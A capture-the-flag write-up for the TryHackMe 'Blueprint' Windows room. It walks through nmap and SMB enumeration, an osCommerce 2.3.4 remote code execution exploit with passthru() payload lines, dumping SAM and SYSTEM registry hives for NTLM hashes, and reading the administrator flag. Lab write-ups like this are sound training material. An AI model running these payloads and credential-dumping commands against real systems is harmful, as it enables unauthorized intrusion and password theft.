




# Blueprint

[Blueprint](https://tryhackme.com/room/blueprint) is a TryHackMe Windows room.

I like to save the target IP as a variable for more convinent access:

```
$ export IP=10.10.33.242
```

## Initial Recon

To start, scan the target IP address with nmap to determine open ports and
services:

```
$ nmap -p- -sV -oN nmap_version_scan.txt -vv $IP

PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 7.5
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack MariaDB (unauthorized)
8080/tcp  open  http         syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack Microsoft Windows RPC
49160/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Our scan checks all ports (-p-), determines service version info (-sV), saves
output to nmap_version_scan.txt (-oN), and is very verbose (-vv).

Found services:
- **Port 80 (http):** A Microsoft IIS 7.5 web server 
- **Port 135 (dcom-scm):** Listens for incoming client requests
- **Port 139 (netbios):** Used by Windows to identify systems 
- **Port 443 (https):** Apache web server
- **Port 3306 (mysql):** A MySQL database - maybe we'll exploit SQLi?
- **Port 8080 (http):** Another Apache web server
- The remaining ports are irrelevant for solving the room.


## Enumeration

I like to enumerate web servers first. The servers on port 80 and 443 did not
have anything. Here's the landing page for the 8080 port:



We see a folder titled "oscommerce-2.3.4" and the same banner information
revealed in our nmap scan above. Click on the folder:



Click on the catalog/ directory to view an unpolished eshop.




I didn't see much here, so I deviated from the web server to inspect the SMB
shares.

Found SMB shares:

```
$ smbclient -L //$IP/ -N    

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      
        Windows         Disk      
SMB1 disabled -- no workgroup available
```

The only non-empty share that we had access too was the Users share. However,
there was not much in there, but I grabbed the NTUSER.dat file anyways.

## Initial Access

My next idea was to see if any vulnerabilities exist for oscommerce with
searchsploit.



I selected the last one for remote code execution. Pull it down with
`searchsploit -m php/webapps/44374.py`.

This exploits the oscommerce-2.3.4/install/install_4.php script to allow us to
execute commands!

There are a few house-keeping things to do before the exploit will work.

First, change the base_url and target_url variables accordingly. Secondly, the
web server has the system() PHP function disabled. We can confirm this with by
adding the following line to the payload: 

```
payload += 'echo ini_get("disable_functions");'
```

Then run the exploit:

```
$ python3 exploit.py && curl http://$IP:8080//oscommerce-2.3.4/catalog/install/includes/configure.php

system
```

We need a different function to execute commands. I tried exec() and
shell_exec(), but passthru() was the one that worked for me.

Our payload section should now look like this:

```
payload = '\');'
payload += 'passthru("ls");'	# <-- enter commands here!
payload += '//'
```

## Remote Code Execution

For starters, let's see who we are running as with `whoami`.

```
nt authority\system
```

Awesome! The NT Authority\System user has full access to the machine! Typically
this account has more rights than the Administrator user.

## Lab user NTLM hash

If I had a remote shell connection, I could use a tool like mimikatz to grab the
NTLM hash from memory. Since that's not available, I used an old school
technique I learned from [this SuperUser
post](https://superuser.com/questions/364290/how-to-dump-the-windows-sam-file-while-the-system-is-running).

It explains that we can use the Windows builtin `reg save` command to pull the
NTLM hash from the HKLM SAM and SYSTEM keys.

Add the following command to our payload:

```
payload += 'passthru("reg save hklm\\sam C:\sam && reg save hklm\\system C:\system");'
...
$ python3 exploit.py
```

Now that the SAM and SYSTEM keys are copied to the C:\ drive, we can pull them
down with:

```

```
### Root Flag

Contents of root.txt.txt
```
payload += 'passthru("type C:\\Users\\Administrator\\Desktop\\*");'
```

## Helpful links
https://www.php.net/manual/en/function.passthru.php

